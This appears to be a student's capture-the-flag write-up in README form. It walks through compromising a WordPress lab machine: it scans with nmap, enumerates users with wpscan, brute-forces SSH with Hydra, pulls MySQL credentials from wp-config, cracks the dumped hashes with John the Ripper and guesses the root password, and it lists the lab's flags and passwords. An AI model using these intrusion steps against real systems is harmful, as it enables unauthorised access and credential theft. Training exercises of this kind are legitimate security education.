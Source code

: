 Red Team: Summary of Operations

Table of Contents

	- Exposed Services
	- Critical Vulnerabilities
	- Exploitation


Exposed Services
Nmap scan results for each machine reveal the below services and OS details:
Command: '$ nmap -sV 192.168.1.110'

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP		Open		SSH
2. Port 80/TCP		Open		HTTP
3. Port 111/TCP		Open		rcpbid
4. Port 139/TCP		Open		netbios-ssn
5. Port 445/TCP		Open		netbios-ssn



### Critical Vulnerabilites
The following vulnerabilities were identified on each target:

**Target 1**

1. User Enumeration (WordPress site)
2. Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
3. Brute forced ssh to gain access in to the system.
4. Secure files are not hidden away.
5. Misconfiguration of User Privileges/ Privilege Escalation


### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**

**flag1.txt: '{b9bbcb33e11b80be759c4e844862482d}'


	- Exploit Used:
		- WPScan to enumerate users on the Target1 WordPress site.
		- Command:
			- '$ wpscan --url 192.168.1.110/wordpress'
			   $ wpscan --url 192.168.1.110 --enumerate -u'
		- ![](IMAGES/wpscan.png)


	- Targeting the user 'michael'
		- Small manual Brute Force attack to guess/finds Michael's password.
		- First, the user's password is weak and obvious.
		- Second, for pratice, Hydra can be used to crack Michaels's password:
			- Command: 'hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh
		    
            	- [HYDRA Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/hydra-command-2.png)		


	- Capturing Flag1: SSH in as Michael, transvering through directories and files.
		- The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.
		- Commands:
			- 'ssh michael@192.168.1.110'
			- 'password: michael'
			- 'cd /var/www/html'
			- 'ls -l'
			- 'nano services.html'
			
		- [FLAG1 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag1.png)
			
            	


**flag2.txt: '{fc3fd5Bdcdad9ab23facac6e9a365e581c33}'


Exploit Used

	- The same exploit used to gain flag1.
	- Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
		- Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found. 
		- Commands:
			- 'ssh michael@192.168.1.110'
			- 'password: michael'
			- 'cd /var/www'
			- 'ls -l'
			- 'cat flag2.txt'
		
		- [FLAG2 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag2.png)

**flag3.txt: '{afc01ab56b50591e7dccf93122770cd23}'

Exploit Used:
	- Same exploits to gain Flag1 and Flag2.
	- Capturing Flag3: Access the MYSQL database.
		- Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
	- Commands:
		- 'mysql -u root -p 'R@v3nSecurity' '
		- 'show databases;'
		- 'use wordpress;'
		- 'select * from wp_posts;
		
       	- [FLAG3 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag3.png)

**flag4.txt: '{715dea6c055b9fe3337544932F2941ce}'

Exploit Used:
	- Unsalted password hash and use of the privilege escalation with Python.
	- Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.
		- Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hasses using MYSQL.
		- The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.
		- Commands: 
			- 'myql -u root -p'R@v3nSecurity' '
			- 'show databases;'
			- 'use wordpress;'
			- 'show tables;'
			- 'select * from users;'

	- On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.
	- Command:
		- 'john wp_hashes.txt'
		
        [John Command Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/steven-password-2.png)
        

	- Once the user Steven's password hash was crached, the next step was to SSH in the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root           passwords.
	- Commands:
		- 'ssh steven@192.168.1.110'
		- 'password: pink:84'
		- 'sudo -l'
		- 'su root'
		- 'password: toor'
		- 'find /-iname flag*'
		- 'cat /root/flag4.txt
		
        - [FLAG4 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag4.png)
